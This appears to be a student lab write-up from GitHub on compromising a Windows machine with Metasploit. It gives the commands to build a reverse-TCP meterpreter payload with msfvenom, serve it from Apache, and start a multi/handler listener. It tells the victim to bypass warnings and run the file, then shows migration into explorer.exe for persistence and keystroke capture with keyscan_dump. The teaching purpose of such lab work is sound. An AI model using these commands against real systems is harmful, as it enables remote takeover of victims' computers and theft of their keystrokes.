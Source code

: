 ## Compromising windows using Metasploit
Metasploit

## Compromising windows using Metasploit
## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
## Step 1:
Install kali linux either in partition or virtual box or in live mode

## Step 2:
Investigate on the various categories of tools as follows:
## Step 3:

Open terminal and try execute some kali linux commands
## OUTPUT:

![280442420-54fd799e-0076-4a17-bf93-6dbc1aa42616](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/9fc9fe94-c417-44b6-a0fb-9f4c90fed9ce)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![280442460-04ceff39-1fbe-4361-bca3-b851daad372f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/5caed90d-eeaa-416d-8e6a-819f5c5bf90e)


copy the fun.exe into the apache /var/www/html folder ![280442496-ac2a0aa4-7bde-4410-a933-304df04ce31f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/6b0acb22-92ad-40e0-beaa-8defd3a027c1)


Start apache server sudo systemctl apache2 start ![280442530-540832c2-a032-4a9a-848b-e14f860b2bd5](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/2fb50559-5938-49b4-b6be-9757cdb0a7ef)


Check the status of apache2 ![280442562-a57a2348-c4de-4fb2-a465-904b37cfb9b0](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/67a253d4-d257-4e81-8a28-499b5c0ce1ab)


Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![280442630-9aa19a10-610e-4743-83cd-f59011002911](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/35759e69-33d1-45be-a5c2-34598853cf5d)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. ![280442661-7ee54804-21c1-4c37-9aea-468f1c00dda1](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/475c09b3-75d2-4a11-a00f-3720c954e288)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image ![280442689-410a522c-76c1-4167-be8e-802769ae87f8](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/58117e5f-64c9-435f-af76-7e45cf3be7f7)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 ![280442732-0f965d4a-97b7-4797-9966-75188d713fc3](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/48b464f9-f146-41cc-aaed-534e02df701e)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted ![280442797-84ffdbba-6b4f-446e-8185-af7fef514caa](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/4f97250f-58f3-4d68-8123-b2bf58c57649)


keyscan_dump Shows the keystrokes captured so far ![280442832-f5f4a0a2-39cf-4592-9459-4840c30e9745](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/86d24b54-f783-482c-9f31-aa0fdc2172f9)

## RESULT:

The Metasploit framework is used to compromise windows and is examined successfully.
